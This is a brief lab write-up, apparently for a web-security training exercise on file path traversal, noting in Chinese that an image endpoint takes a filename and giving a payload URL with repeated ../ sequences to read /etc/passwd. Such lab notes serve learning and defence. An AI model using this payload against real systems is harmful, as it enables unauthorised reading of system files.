 # Lab: File path traversal, simple case

This lab contains a file path traversal vulnerability in the display of product images.

To solve the lab, retrieve the contents of the /etc/passwd file.

## LFI
* 觀察一下可以看到有一個 api 是叫 filename 之後拿圖片
```
payload = https://ac271fc71eea2c12c05608c6005300c7.web-security-academy.net/image?filename=../../../../../../../../../etc/passwd
```